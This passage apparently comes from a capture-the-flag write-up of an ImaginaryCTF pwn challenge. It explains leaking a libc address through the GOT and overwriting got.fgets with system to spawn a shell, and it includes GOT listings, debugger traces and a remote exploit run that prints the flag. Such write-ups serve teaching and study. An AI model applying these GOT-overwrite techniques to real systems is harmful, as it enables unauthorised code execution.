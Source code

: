 **[Source](https://ropemporium.com/guide.html)**

Stack alignment issues come up in pwn challenges **a lot**, and the solution typically involves inserting a `ret` instruction into the payload, which we can easily find with a tool like `ropper`. You can learn a lot more about x64 stack alignment **[here](https://hackyboiz-github-io.translate.goog/2020/12/06/fabu1ous/x64-stack-alignment/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en)**.

However, in this case, we don't have control of the stack. Instead, we can try to jump to `system+1`, i.e. skip the first `push rax` instruction, which is causing a segfault.

```sh
 ► 0x404030 <system@got[plt]>    push   rax
```

This raises a new problem. Namely, the `got.system` address is `0x404030`, so if we enter `system+1` it will be `0x404031`. Let's review the GOT.

```c
                  PTR_system_00404030                   XREF[1]:  system:00401060
 00404030 18 50       addr     <EXTERNAL>::system                    ; = ??
                  PTR_printf_00404038                   XREF[1]:  printf:00401070
 00404038 20 50       addr     <EXTERNAL>::printf                    ; = ??
```

`got.printf` begins at `0x404038`, so if we write 8 bytes to `0x404031`, we'll overwrite the first byte of `got.printf` **and** miss the first byte of `got.system`.

The problem is that the GOT holds a pointer to the function addresses in the Lib-C library. If we want to access `system+1`, we must first find the actual address of `libc.system` (rather than `got.system`).

We can leak the Lib-C address the same way we leaked the `flag` in the last challenge. We'll overwrite a link, making the next element point to `got.system` (after ensuring the GOT entry is populated), then view the list and extract the address.

We can proceed with the remainder of the exploit, overwriting `got.fgets` with `leaked_system+1` instead of `got.system`. We get a shell and run `cat flag.txt` 🙂

```sh
python exploit.py REMOTE puzzler7.imaginaryctf.org 2007
[+] Opening connection to puzzler7.imaginaryctf.org on port 2007: Done
[*] leaked got_system: 0x7f4f6a53dd60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{who_knew_the_current_date_could_be_so_dangerous?}$
```

**edit:** `system+1` was not required. When we leak the Lib-C address, we can call it directly from the base. If we setup a breakpoint at `write_data` and step through until the `fgets` (`system`) call:

```sh
 RSP  0x7fff526190b0 ◂— 0x0
*RIP  0x401241 (write_data+60) ◂— call   0x401080
──────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
   0x401229 <write_data+36>    call   printf@plt                      <printf@plt>

   0x40122e <write_data+41>    mov    rdx, qword ptr [rip + 0x2e4b] <stdin@GLIBC_2.2.5>
   0x401235 <write_data+48>    mov    rax, qword ptr [rbp - 0x18]
   0x401239 <write_data+52>    mov    esi, 0x64
   0x40123e <write_data+57>    mov    rdi, rax
 ► 0x401241 <write_data+60>    call   fgets@plt                      <fgets@plt>
        s: 0x2394300 ◂— '/bin//sh'
        n: 0x64
        stream: 0x7f174e9c6980 (_IO_2_1_stdin_) ◂— 0xfbad2088
```
